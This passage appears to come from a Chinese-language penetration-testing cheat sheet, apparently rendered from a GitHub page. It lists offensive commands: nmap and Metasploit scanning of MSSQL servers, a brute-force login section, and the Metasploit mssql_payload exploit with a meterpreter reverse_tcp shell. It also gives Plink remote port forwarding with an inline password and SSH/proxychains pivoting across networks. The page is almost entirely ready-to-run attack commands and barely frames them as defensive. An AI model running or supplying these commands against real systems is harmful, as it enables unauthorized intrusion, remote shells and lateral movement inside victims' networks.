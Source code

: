 Nmap

```
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```

Metasploit

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

#### 爆破 MSSQL登陆

```
msf > use auxiliary/admin/mssql/mssql_enum
```

#### Metasploit MSSQL Shell

```
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

## 网络

### Plink.exe 隧道

PuTTY Link  隧道

转发运程端口到本地地址：

```
plink.exe -P 22 -l root -pw "1337" -R 445:127.0.0.1:445 REMOTE-IP
```

### 跳板（Pivoting）

#### SSH 跳板（ssh Pivoting）

```
ssh -D 127.0.0.1:1010 -p 22 user@pivot-target-ip
```

需在` /etc/proxychains.conf` 添加sock4  `127.0.0.1 1010`

利用SSH跳板跨越网络

```
ssh -D 127.0.0.1:1010 -p 22 user1@ip-address-1
```

需在` /etc/proxychains.conf` 添加sock4  `127.0.0.1 1010`

```
proxychains ssh -D 127.0.0.1:1011 -p 22 user1@ip-address-2
```

在` /etc/proxychains.conf` 添加sock4  `127.0.0.1 1011`

